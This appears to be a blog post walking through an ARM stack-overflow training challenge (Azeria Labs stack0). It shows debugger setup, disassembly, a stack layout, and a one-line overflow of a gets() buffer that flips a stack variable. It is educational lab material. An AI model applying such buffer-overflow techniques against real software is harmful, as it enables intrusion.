 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part I"
---
```


This is the first of a serie of posts about exploiting 32 bits Arm
binaries.

These [challenges](https://github.com/azeria-labs/ARM-challenges) were
[taken](https://azeria-labs.com/part-3-stack-overflow-challenges/)
from [Azeria Labs](https://azeria-labs.com).<!--more-->

## Setup

Let's [spin a Rasbian](/book-of-gehn/articles/2020/12/15/Qemulating-Rasbian-ARM.html)
first. Make your to forward a port for the `ssh` and another for the
`gdbserver` so we can connect to them from the host machine.

There are [7 binaries](https://github.com/azeria-labs/ARM-challenges)
compiled for ARM for 32 bits, not stripped and dynamically linked.

We will focus on `stack0` for now.

```shell
$ file stack0
stack0: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV),
dynamically linked, interpreter /lib/ld-linux-armhf.so.3,
for GNU/Linux 2.6.32, BuildID[sha1]=1171fa6db1d5176af44d6d462427f8d244bd82c8,
not stripped
```

Spin the `gdbserver`:

```shell
pi@raspberrypi:~$ gdbserver :9999 stack0
Process /home/pi/stack0 created; pid = 410
Listening on port 9999
```

And now, from the host, connect your `gdb` to the server. In my case I
will use [pwndbg](https://github.com/pwndbg/pwndbg), an enhanced version
of `gdb`.

```shell
$ gdb-multiarch -q -x ~/scripts/pwndbg.gdbinit
pwndbg> target extended-remote :9999
Remote debugging using <...>
Reading /home/pi/stack0 from remote target...
```

In addition to the debugger, I will use an
[interactive assembler](https://github.com/bad-address/iasm) to play
with some Arm code that I may not understand but which I don't want to
run in the debugger
(see [my post about `iasm`](/book-of-gehn/articles/2021/01/09/Interactive-Assembler.html)).

## Stack initialization

The stack initialization of `main` is as follows:

```nasm
pwndbg> pdisass &main
 ► 0x1044c <main>       push   {fp, lr}
   0x10450 <main+4>     add    fp, sp, #4
   0x10454 <main+8>     sub    sp, sp, #0x50
   0x10458 <main+12>    str    r0, [fp, #-0x50]
   0x1045c <main+16>    str    r1, [fp, #-0x54]
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
   0x10468 <main+28>    sub    r3, fp, #0x48
   0x1046c <main+32>    mov    r0, r3
   0x10470 <main+36>    bl     #gets@plt <gets@plt>
```

The `lr` and the `fp` are pushed in that order (0x8 bytes),
the `fp` is updated and points to the pushed `lr` (`add fp, sp, #4`)
and then 0x50 bytes are allocated (`sub sp, sp, #0x50`).

The arguments of `main`, registers `r0` and `r1`, are saved on *top* of
the stack (`str r0, [fp, #-0x50]`, `str r1, [fp, #-0x54]`).

And then the cookie is stored:

```nasm
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
```

This is our target.

## Call to `gets`

In the `main` function a call to `gets` is done with a buffer
allocated in the stack:

```nasm
pwndbg> pdisass
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
   0x10468 <main+28>    sub    r3, fp, #0x48
   0x1046c <main+32>    mov    r0, r3
 ► 0x10470 <main+36>    bl     #gets@plt <gets@plt>
        r0: 0xbefffb6c ◂— 0x0
        r1: 0xbefffd04 —▸ 0xbefffe14 ◂— '/home/pi/stack0'
        r2: 0xbefffd0c —▸ 0xbefffe24 ◂— 'SHELL=/bin/bash'
        r3: 0xbefffb6c ◂— 0x0
```

The registers before the call to `gets` were:

```
------  ----  ------  ---------  ------  ---------  ------  ------
    r0  1fb4  r1      eeee:eeee  r2      0          r3      1fb4
    r4  0     r5      0          r6      0          r7      0
    r8  0     r9/sb   0          r10     0          r11/fp  1ffc
r12/ip  0     r13/sp  1fa8       r14/lr  aaaa:aaaa  r15/pc  100:20
------  ----  ------  ---------  ------  ---------  ------  ------
```

And the manually-annotated stack was:

```python
100:20> ;! M[sp:]   # <-- from sp to the end of the mapped page
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
        |   ... 16 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
] <-- base of stack
```

`r3` points *almost* to the begin of the bunch of zeros, just 4
bytes below.

We can verify this writing and inspecting the memory:

```python
100:20> ;! M[r3:] = b"AAAABBBBCCCC"
100:20> ;! M[sp:]
[
        \xee\xee\xee\xee
        \xdd\xdd\xdd\xdd
        \x00\x00\x00\x00    == these are still zeros
buf --> AAAA
        BBBB
        CCCC
        \x00\x00\x00\x00
        ...
]
```

Indeed, the destination buffer of `gets` has 0x48 - 0x8 bytes
(we subtract 4 bytes for the cookie and 4 bytes for the stored `fp`)

```python
100:20> ;! M[sp:]
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
buf ----|-->AAAA
        |   BBBB
        |   CCCC
        |   ... 13 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
]
```

## The target

The program stores a cookie initialized to zero in the stack *before*
the call to `gets` and then it checks its value.

```nasm
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
    ...
   0x10470 <main+36>    bl     #gets@plt <gets@plt>
   0x10474 <main+40>    ldr    r3, [fp, #-8]
   0x10478 <main+44>    cmp    r3, #0
```

If it is still zero jumps to a `puts` that prints `"Try again?"`.

But if an overflow occurs, the cookies will be non-zero and another
`puts` will executed.

This is the print that we are looking for:

```nasm
   0x10480 <main+52>    ldr    r0, [pc, #0x18]
 ► 0x10484 <main+56>    bl     #puts@plt <puts@plt>
```

The address of the string to print is stored in the code segment, 0x18
bytes below the program counter at 0x10480.

However 0x10480 + 0x18 == 0x10498 is not correct:

```nasm
pwndbg> x/4 0x10498
0x10498 <main+76>:  0xe24bd004  0xe8bd8800  0x0001051c  0x00010548
```

почему?

> "When using R15 as the base register you must remember it contains an
> address 8 bytes on from the address of the current instruction."
> <cite class="epigraph">Arm documentation</cite>

So it is 0x10498 + 0x8:

```nasm
pwndbg> x/4 0x104a0
0x104a0 <main+84>:  0x0001051c  0x00010548  0xe92d43f8  0xe1a07000

pwndbg> p (char*)0x0001051c
$21 = 0x1051c "you have changed the 'modified' variable"
```

## The exploit

Writing 0x40+1 bytes we will overflow the buffer overwriting the cookie
in the stack but without corrupting the stack further.

```shell
pi@raspberrypi:~$ echo -n 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' | ./stack0
you have changed the 'modified' variable
```


<!-- stuff -->

<script>
function fix_asm_syntax(ev) {
    // pip install selectq
    //   cond = (val('text()') == 'blt') | (val('text()') == 'b') | (val('text()').startswith('mov')) | ...
    //   div = sQ.select('div', attr('class').contains('language-nasm'))
    //   xpath = div.select('span', cond)

    // Make some instructions "keywords"
    var xpath = ".//div[contains(@class,'language-nasm')]//span[(((text() = 'blt') or (text() = 'b')) or starts-with(text(), 'mov')) or starts-with(text(), 'ldm') or starts-with(text(), 'stm') or starts-with(text(), 'ldr') or starts-with(text(), 'bx') or starts-with(text(), 'bl') or starts-with(text(), 'bne') or starts-with(text(), 'mvn')]";
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.add('k'); // keyword
        el.classList.remove('n'); // noun
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-nasm')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-python')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }
}

document.addEventListener('DOMContentLoaded', fix_asm_syntax);
</script>
